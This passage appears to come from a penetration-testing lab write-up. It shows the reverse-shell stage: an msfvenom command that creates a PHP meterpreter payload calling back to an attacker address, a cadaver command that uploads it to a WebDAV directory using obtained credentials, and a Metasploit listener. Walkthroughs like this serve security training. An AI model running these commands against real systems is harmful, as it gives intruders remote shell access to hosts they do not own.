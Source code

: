 ### **Reverse Shell:**

#### **Msfvenom**

The next task was to upload a shell script to webdav, in order to create a reverse shell.

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 -f raw -o shell.php
```

Using msfvenom we created a payload – shell.php

![29](Images1/29.PNG)

#### **Cadaver**

```
cadaver http://192.168.1.105/webdav
```

Using cadaver and Ryan's credentials we accessed webdav, and uploaded the payload to the webdav directory.

![30](Images1/30.PNG)

![31](Images1/31.PNG)

#### **Metasploit**

```
msfconsole
use multi/handler
```

Once the payload was successfully uploaded, in order to create the reverse shell, we setup a listener using Metasploit.

![32](Images1/32.PNG)
